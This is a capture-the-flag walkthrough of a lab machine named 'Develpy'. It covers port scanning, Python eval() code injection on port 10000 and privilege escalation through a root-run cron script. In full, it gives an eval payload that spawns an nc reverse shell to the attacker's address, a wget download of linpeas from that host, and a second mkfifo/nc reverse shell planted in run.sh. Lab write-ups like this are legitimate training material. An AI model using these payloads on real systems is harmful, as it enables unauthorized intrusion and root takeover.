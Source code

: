 Develpy

------------------------------
Aaron Aguilar
03-02-2023
------------------------------

first i scan with nmap with this tag 
```
$sudo nmap -T5 -p- 10.10.252.225 -oN nmap_inital.txt | tee nmap.te

sudo nmap -sV -sC p 22,1000 10.10.252.225 -T5 -vvv

and i got this ports open

PORT      STATE SERVICE           REASON         VERSION
22/tcp    open  ssh               syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

10000/tcp open  snet-sensor-mgmt? syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing

```
port 22 and 10000 is open
checking on using netcat ip:10000 it shows that there is a python code injection vulnerability

```
nc 10.10.90.237 10000 

        Private 0days

 Please enther number of exploits to send??: 
 ─$ nc 10.10.90.237 10000

         Private 0days

  Please enther number of exploits to send??: a
 Traceback (most recent call last):
   File "./exploit.py", line 6, in <module>
     num_exploits = int(input(' Please enther number of exploits to send??: '))
   File "<string>", line 1, in <module>
 NameError: name 'a' is not defined

```
I checked for python command injection and found out about the eval() exploit
on my attack machine I set up the nc listener and run the netcat code in the victim machine

```
victim machine
nc 10.10.90.237 10000

        Private 0days

 Please enther number of exploits to send??: eval('__import__("os").system("mkfifo /tmp/lol;nc 10.18.70.19 4444 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol")')

└─$ rlwrap nc -lnvp 4444            
listening on [any] 4444 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.90.237] 51004
/bin/sh: 0: can't access tty; job control turned off
$ whoami
king
$ ls
credentials.png
exploit.py
root.sh
run.sh
user.txt
$ ls /home
king
$ cat user.txt
cf85ff769cfaaa721758949bf870b019
$ 
```

# 2. Root txt
Now I just need to escalate my priveleges
```
$ env
LANGUAGE=en_US:
SHLVL=1
SOCAT_PEERADDR=10.18.70.19
HOME=/home/king
SOCAT_PEERPORT=50878
SOCAT_SOCKADDR=10.10.90.237
SOCAT_VERSION=1.7.3.1
SOCAT_SOCKPORT=10000
LOGNAME=king
_=/root
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/king
SOCAT_PID=1044
SOCAT_PPID=786

drwxr-xr-x 4 king king   4096 Aug 27  2019 .
drwxr-xr-x 3 root root   4096 Aug 25  2019 ..
-rw------- 1 root root   2929 Aug 27  2019 .bash_history
-rw-r--r-- 1 king king    220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 king king   3771 Aug 25  2019 .bashrc
drwx------ 2 king king   4096 Aug 25  2019 .cache
-rwxrwxrwx 1 king king 272113 Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king    408 Aug 25  2019 exploit.py
drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
-rw-rw-r-- 1 king king      5 Mar  1 22:20 .pid
-rw-r--r-- 1 king king    655 Aug 25  2019 .profile
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king    139 Aug 25  2019 run.sh
-rw-r--r-- 1 king king      0 Aug 25  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
-rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
```
I dont know what to do hahah so I used linpeas I hosted linpeas in my server to download in the victim machine
```
king@ubuntu:/dev/shm$ wget http://10.18.70.19/linpeas.sh
wget http://10.18.70.19/linpeas.sh
--2023-03-01 22:31:29--  http://10.18.70.19/linpeas.sh
Connecting to 10.18.70.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828087 (809K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 808.68K   520KB/s    in 1.6s    

2023-03-01 22:31:31 (520 KB/s) - ‘linpeas.sh’ saved [828087/828087]

king@ubuntu:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.sh
king@ubuntu:/dev/shm$ ./linpeas.sh
./linpeas.sh
```
this seems like a possible escalation vulnerability because it runs everyminute everyday
and is owned by king
```

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   king    cd /home/king/ && bash run.sh
*  *    * * *   root    cd /home/king/ && bash root.sh
*  *    * * *   root    cd /root/company && bash run.sh

````
before anything else I have to upgrade the shell since this is a dumbshell
```

python -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo
fg
export TERM=xterm
````
Once I got the dumbshell I checked the crontab and it seems that root.sh is being run every minute I deleted the code inside the run.sh and inserted my own malicious netcat reverse shell code

```

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 4445 >/tmp/f




```
````

└─$ nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.18.68] 36496
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls /root
company
root.txt
# cat /root/root.txt
9c37646777a53910a347f387dce025ec
#

```
